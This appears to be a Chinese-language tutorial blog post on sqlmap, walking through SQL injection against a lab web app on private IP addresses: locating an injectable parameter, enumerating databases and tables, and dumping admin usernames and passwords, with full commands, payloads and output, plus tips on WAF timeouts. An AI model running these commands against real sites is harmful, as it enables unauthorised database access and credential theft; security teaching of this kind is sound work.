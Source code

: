 ```yaml
---
title: Net(5)—sqlmap使用实例
date: 2020-11-21
author: LM
tags: ["网络测试"]
---
```


## 1.第一步：查找注入点

```bash
sqlmap -u '192.168.3.59/article.php?id=1' #必须带上GET参数，否则sqlmap不知道如何注入
```

```bash
root@kali:~# sqlmap -u '192.168.3.59/article.php?id=1'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:30:43

[11:30:43] [INFO] resuming back-end DBMS 'mysql' 
[11:30:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1817=1817

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2184 UNION ALL SELECT NULL,CONCAT(0x716b707071,0x517964767671746351415543654b4b794171664b78754b57434b70774c6b56434b6a46786a4d5a76,0x717a706271)-- BgjA
---
[11:30:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:30:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.3.59'

[*] shutting down at 11:30:43
```

**结果：**出现Parameter: id (GET)等内容，存在注入点

## 2.第二步：查找数据库

```bash
sqlmap -u '192.168.3.59/article.php?id=1' --dbs    #查找数据库
```

```bash
#........#
[11:37:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:37:43] [INFO] fetching database names
[11:37:43] [INFO] the SQL query used returns 2 entries
[11:37:43] [INFO] retrieved: information_schema
[11:37:43] [INFO] retrieved: website
available databases [2]:                                                       
[*] information_schema
[*] website
#......#
```

**结果：**注入发现两个数据库information_schema和website。information_schema主要是mysql数据库、表、列的信息，没有什么用处，website是网站的数据，对这个数据库进行注入。

## 3.第三步：注入

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website --tables  #对website表注入
```

```bash
#。。。。。#
[11:41:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:41:14] [INFO] fetching tables for database: 'website'
[11:41:14] [INFO] the SQL query used returns 2 entries
[11:41:14] [INFO] retrieved: admin
[11:41:14] [INFO] retrieved: articles
Database: website                                                              
[2 tables]
+----------+
| admin    |
| articles |
+----------+
#..........#
```

**结果：**发现有两张表admin、articles，选择注入admin

## 4.第四步：读取数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin --columns  #读取admin表中列
```

```bash
#..............#
[11:43:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:43:46] [INFO] fetching columns for table 'admin' in database 'website'
[11:43:47] [INFO] the SQL query used returns 3 entries
[11:43:47] [INFO] retrieved: "id","int(11)"
[11:43:47] [INFO] retrieved: "user","text"
[11:43:47] [INFO] retrieved: "pass","text"
Database: website                                                              
Table: admin
[3 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| user   | text    |
| id     | int(11) |
| pass   | text    |
+--------+---------+
#............#
```

**结果：**注入得到了三列user、id、pass，只要得到user和pass，就能得到密码(一般是网站后台管理的登录密码)

## 5.第五步：查看数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin -C user,pass --dump #将uesr，pass数据输出
```

```bash
#..........#
[11:47:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:47:33] [INFO] fetching entries of column(s) '`user`, pass' for table 'admin' in database 'website'
[11:47:33] [INFO] the SQL query used returns 3 entries
[11:47:33] [INFO] retrieved: "test1","123456"
[11:47:33] [INFO] retrieved: "test2","123456"
[11:47:33] [INFO] retrieved: "test3","123456"
Database: website                                                              
Table: admin
[3 entries]
+--------+--------+
| user   | pass   |
+--------+--------+
| test1  | 123456 |
| test2  | 123456 |
| test3  | 123456 |
+--------+--------+
#............#
```

**结果：**可以查看到用户名与密码

## 6.尝试一下

```bash
sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer --dump

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer -columns 

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --tables

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --dump-all

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch --dbs

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch
```

## 7.常见报错

**Q：有时发现跑出的数据都是毫无意义的字符**

**A：解决方案**

- SQLMAP会提示你加–hex或者–no-cast，有时会有帮助
- 如果你用的是time-based注射，建议增加延时–time-sec等参数，即使你的网速比较好，但是服务器可能遇见各种奇怪环境
- 增加level的数值

**Q：显示unable to connect to the target url**

**A：解决方案**

第一个可能是 time-out 设置的太小，出现问题，再有可能就是 waf 直接把请求拦截掉了，因此得不到响应。有些 waf 比较友善，过滤后会提示“参数不合法”，但是也有些waf则直接把请求拦下来无提示导致应答超时，这样在测试时会消耗大量的时间等待响应，建议减少time-out进行检测，在跑数据时改回time-out

**Q：提示possible integer casting detected**

**A：解决方案**

如果是在手工测试，建议到这里可以停止了，节省时间。如果是在扫描器扫描的盲注，那么到这里坚决无视警告继续下去。



